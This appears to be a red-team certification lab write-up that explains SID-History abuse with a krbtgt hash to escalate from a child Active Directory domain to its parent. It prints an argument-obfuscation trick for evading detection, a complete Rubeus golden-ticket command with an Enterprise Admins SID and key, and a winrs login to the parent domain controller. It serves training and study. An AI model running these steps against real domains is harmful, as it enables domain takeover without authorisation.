



CRTP - Certified Red Team Professional
Enterprise Admin Trust - SID-History Abuse with KRBTGT hash
SID-History Abuse with KRBTGT Hash
SID-History Abuse with KRBTGT hash is a technique used to escalate privileges and bypass access controls in Windows systems. It involves injecting higher-privileged SIDs into the SID History attribute of a user account, effectively granting the user the permissions associated with those higher-privileged groups.
How SID-History Abuse Works
1. Compromising a Standard User Account: An attacker first compromises a standard user account with some level of privileges.
1. Adding Higher-Privileged SIDs: The attacker then adds the SID of a higher-privileged group (such as Enterprise Admins or Domain Admins) to the SID History attribute of the compromised user account.
1. Elevated Access: With the higher-privileged SIDs in the SID History, the user account now has elevated access to resources and systems within the parent domain.
KRBTGT Hash Abuse
The KRBTGT hash is a critical component in the SID-History Abuse process. The KRBTGT hash is used to sign the Kerberos tickets, which are used to authenticate users and grant access to resources.
How KRBTGT Hash Abuse Works
1. Compromising the KRBTGT Hash: An attacker compromises the KRBTGT hash, which is used to sign Kerberos tickets.
1. Forging Kerberos Tickets: The attacker uses the compromised KRBTGT hash to forge Kerberos tickets that can be used to access resources across the domain.
1. Elevated Access: With the forged Kerberos tickets, the attacker can access resources and systems within the domain, effectively bypassing normal access controls.
Assuming that we were able to compromise Domain Admin and we have KRBTGT hash dumped, it gets easy to abuse trusts used the KRBTGT.
Having a session as Domain Admin, we can simply use Rubeus to abuse this SID-History with KRBTGT hash.
With DCORP-DC(dollarcorp DC) KRBTGT secrets we can simply create a golden ticket and access MCORP-DC. I’ll be using AES256 key here.
Let’s encode out Rubeus payload with Argsplit.bat and copy/paste it.
ArgSplit.bat
golden
[!] Argument Limit: 180 characters
[+] Enter a string: golden
set "z=n"
set "y=e"
set "x=d"
set "w=l"
set "v=o"
set "u=g"
set "Pwn=%u%%v%%w%%x%%y%%z%"Now let’s use Rubeus to forge our Golden Ticket and Access to Parent Domain Controller.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt

We can see above that our tickey has been successfully imported into our Cached Ticket
We can double check out Cached Ticket witht klist command.
klist

We can confirm above that we do have a valid ticket into our Cached Tickets session.
Now let’s access MDCORP-DC in moneycorp.local domain.
winrs -r:mcorp-dc.moneycorp.local cmd

Adn this way we were able to abuse SID-History with KRBTGT Hash.